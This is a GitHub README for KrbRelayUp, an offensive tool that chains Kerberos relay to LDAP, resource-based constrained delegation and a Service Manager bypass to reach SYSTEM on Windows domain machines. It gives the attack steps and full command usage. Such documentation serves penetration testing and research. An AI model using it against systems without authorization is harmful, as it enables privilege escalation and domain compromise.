

# KrbRelayUp
Simple wrapper around some of the features of [Rubeus](https://github.com/GhostPack/Rubeus/) and [KrbRelay](https://github.com/cube0x0/KrbRelay) (and a few other honorable mentions in the acknowledgements section) in order to streamline the abuse of the following attack primitive:

0. (Optional) New machine account creation ([New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1))
1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to LDAP ([KrbRelay](https://github.com/cube0x0/KrbRelay))
3. Add RBCD privs and obtain privileged ST to local machine ([Rubeus](https://github.com/GhostPack/Rubeus/))
4. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

**This is essentially a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).**

### Usage
```
KrbRelayUp - Relaying you to SYSTEM

RELAY:
Usage: KrbRelayUp.exe relay -d FQDN -cn CUMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -d  (--Domain)                   FQDN of domain.
    -c  (--CreateNewComputerAccount)    Create new computer account for RBCD. Will use the current authenticated user.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD. (deafult=KRBRELAYUP$ [if -c is enabled])
    -cp (--ComputerPassword)         Password of computer account for RBCD. (deafult=RANDOM [if -c is enabled])
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -p  (--Port)                     Port for Com Server (default=12345)

SPAWN:
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

    -d  (--Domain)                   FQDN of domain.
    -cn (--ComputerName)             Name of attacker owned computer account for RBCD. (deafult=KRBRELAYUP$ [if -c is enabled])
    -cp (--ComputerPassword)         Password of computer account for RBCD. (deafult=RANDOM [if -c is enabled])
    -ch (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (Optional)
    -i  (--Impersonate)              User to impersonate. should be a local admininstrator in the target computer. (default=Administrator)
    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM

KRBSCM:
Usage: KrbRelayUp.exe krbscm <-s SERVICENAME> <-sc SERVICECOMMANDLINE>

    -s  (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM
```

### Examples



### TODO
- [ ] Code refactoring and cleanup!!!
- [ ] Add ShadowCred attack as a RELAY method
- [ ] Add TGTDELEG attack  in SPAWN method to be used in Network Service->SYSTEM scenarios (potatoes alternative)
- [ ] Fix the issue I'm having trying to combine the RELAY and SPAWN methods into one run so it can be used as one complete command. Probably has something to do with the fact that both RELAY and SPAWN functionalities rely on hooks during the initialization of the COM Server (Once RELAY initializes its COM Server the SPAWN can't re-initialize it to place its hooks as well)

###  Acknowledgements
* [James Forshaw](https://twitter.com/tiraniddo) for his research on [Kerberos relaying](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html) and for figuring out how to [use Kerberos Service Tickets for LOCAL authentication to Service Manager](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) which was the missing piece of the puzzle in order to make this attack primitive **local only** (before that, we had to export the ST to a remote machine in order to use it and gain privileged access to our target machine). Also for his [New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) functionality which was used in this project.
* [Cube0x0](https://twitter.com/cube0x0) This project wouldn't exist without his amazing work on [KrbRelay](https://github.com/cube0x0/KrbRelay) - a lot of code was taken for there and it made me gain a deeper understanding on how Kerberos Relaying works (I really recommend going through the code for anyone who wish to understand the concept better).
* [Will Schroeder](https://twitter.com/harmj0y) and everyone who contributed to [Rubeus](https://github.com/GhostPack/Rubeus/) which we all know and love. Basically all the RBCD-S4U functionality was taken from there.
* [Orange-Cyberdefense](https://github.com/Orange-Cyberdefense) for their work on [GOAD](https://github.com/Orange-Cyberdefense/GOAD), the Active Directory research lab I am using which you can see in the demo video and images.
